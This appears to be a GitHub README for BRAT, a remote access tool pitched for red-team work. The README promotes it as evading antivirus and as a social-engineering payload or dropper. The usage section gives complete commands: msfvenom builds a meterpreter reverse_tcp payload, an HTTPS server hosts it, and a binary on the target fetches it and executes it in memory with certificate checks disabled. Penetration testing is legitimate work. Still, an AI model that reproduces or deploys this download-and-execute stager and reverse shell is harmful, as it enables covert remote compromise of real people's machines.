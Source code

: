 BRAT
=====

A remote access tool for penetration/red team tests. Hosts no malicious code so is not flagged by AV. Useful for physical compromise of a host, as an SE payload, or as an initial stager/dropper.

### Installing

Pre-compiled windows binaries are available in /bin. To build from source you will need Curl and its required libraries. The provided binaries are compiled against the full Curl library available for Windows here https://curl.haxx.se/windows/. Due to this, they are larger than necessary.

Compile scripts are provided to use a starting point.

### Usage

The tool, once executed, makes an HTTPS GET request to a provided web server. The web server hosts the payload you wish to run. The binary loads this payload into memory and then executes it (NX is disabled on the binary). 

Any web server running HTTPS will suffice. A simple HTTPs web server using python is provided in /web-server. You will need to generate a certificate: 

```openssl req -new -x509 -keyout yourpemfile.pem -out yourpemfile.pem -days 365 -nodes ```

In /web-server/html generate your desired payload:

```msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.10.1 lport=4444 -f raw > payload.txt```

Edit web-server/web.py to point to the web root web-server/html and edit the certfile to you generated PEM.

Start the web server:

```python3  web-server/web.py```

Configure necessary handler/listener for the payload.

Then execute the binary on the target machine. The binary takes two command line options. The first being the webserver/payload and the second 0 or 1. 0 to disable TLS certificate verification and 1 (or any non-zero number) to enable: 

```./a.exe https://your-web-server/payload.txt 0```

### TODO

Build binaries against custom Curl

There is a version which does not use Curl so it is much smaller, only utilizes OpenSSL. Will upload that too.
